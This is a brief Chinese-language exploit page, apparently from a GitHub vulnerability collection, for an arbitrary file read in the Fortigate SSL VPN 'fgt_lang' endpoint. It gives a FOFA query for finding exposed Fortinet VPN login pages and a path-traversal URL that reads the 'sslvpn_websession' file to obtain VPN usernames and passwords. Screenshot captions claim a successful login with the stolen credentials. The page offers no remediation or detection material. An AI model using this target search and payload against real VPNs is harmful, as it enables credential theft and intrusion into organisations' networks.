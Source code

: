 # Fortigate SSL VPN fgt_lang 任意文件读取漏洞
## 资产收集
fofa：`app="FORTINET-SSLVPN"`  
![](./img/VPN_login.png)
## POC
获取VPN账号密码  
`/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`
![](./img/VPN_poc.png)  
获取用户名密码登陆成功：  
![](./img/sucess.png)